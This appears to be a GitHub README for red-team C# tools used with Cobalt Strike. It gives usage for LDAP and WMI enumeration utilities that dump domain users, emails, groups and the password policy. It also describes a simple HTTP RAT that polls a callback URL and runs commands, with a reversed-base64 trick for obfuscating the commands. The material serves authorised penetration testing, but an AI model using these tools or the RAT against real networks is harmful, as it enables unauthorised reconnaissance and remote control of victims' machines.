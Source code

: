 # RedTeamCSharpScripts
C# Script used for Red Team. These binaries can be used by Cobalt Strike execute-assembly or as standalone executable. 


# LDAP utility

LDAP utility contains several LDAP query that will return all the valuable information you are looking for.

The utility support the following options

```
DumpAllUsers        Dump all the users 
DumpUser            Dump user information based on the samaccountname provided
DumpUsersEmail      Dump all users and email addresses
DumpAllComputers    Dump all computers
DumpComputer        Dump a computer information based on the name provided
DumpAllGroups       Dump all groups
DumpGroup           Dump a group information based on the name provided
DumpPasswordPolicy  Dump domain password policy
```

```
Usage: ldaputility.exe options domain [arguments]

ldaputility.exe DumpAllUsers RingZer0
ldaputility.exe DumpUser RingZer0 mr.un1k0d3r
ldaputility.exe DumpUsersEmail RingZer0
ldaputility.exe DumpAllComputers RingZer0 
ldaputility.exe DumpComputer RingZer0 DC01
ldaputility.exe DumpAllGroups RingZer0
ldaputility.exe DumpGroup RingZer0 "Domain Admins"
ldaputility.exe DumpPasswordPolicy RingZer0
```

# WMI Utility

Set of predefined WMI query that can be used to query CIM classes.

The utility support the following options

```
Usage: WMIUtility.exe options [arguments]

ListProcess     Return a list of running process
ListService     List all the services
Query           Args (query, columns) wmiutility.exe Query "Select * From Win32_CommandLineAccess" "Name,Description"
```

# enumerateuser.cs

List all the users samaccountname & mail

```
execute-assembly C:\enumerateuser.exe domain
```

# ldapquery.cs

Perform custom ldap queries

```
execute-assembly C:\enumerateuser.exe ringzer0team "(&(objectCategory=User)(samaccountname=Mr.Un1k0d3r))" samaccountname,mail

Querying LDAP://ringzer0team
Querying: (&(objectCategory=User)(samaccountname=Mr.Un1k0d3r))
Extracting: samaccountname,mail
Mr.Un1k0d3r,Mr.Un1k0d3r@corp.com,
```

# simple-http-rat.cs

A simple RAT that execute command over HTTP. The code is calling back every 10 seconds and will execute the data present on the callback URL.

`rat.exe callbackurl`

The data is obfuscated using the following python trick

```
$ python -c 'import base64; print base64.b64encode("cmd.exe /c whoami")[::-1]'
=kWbh9Ga3ByYvASZ4VmLk12Y
```

# Credit

Mr.Un1k0d3r RingZer0 Team
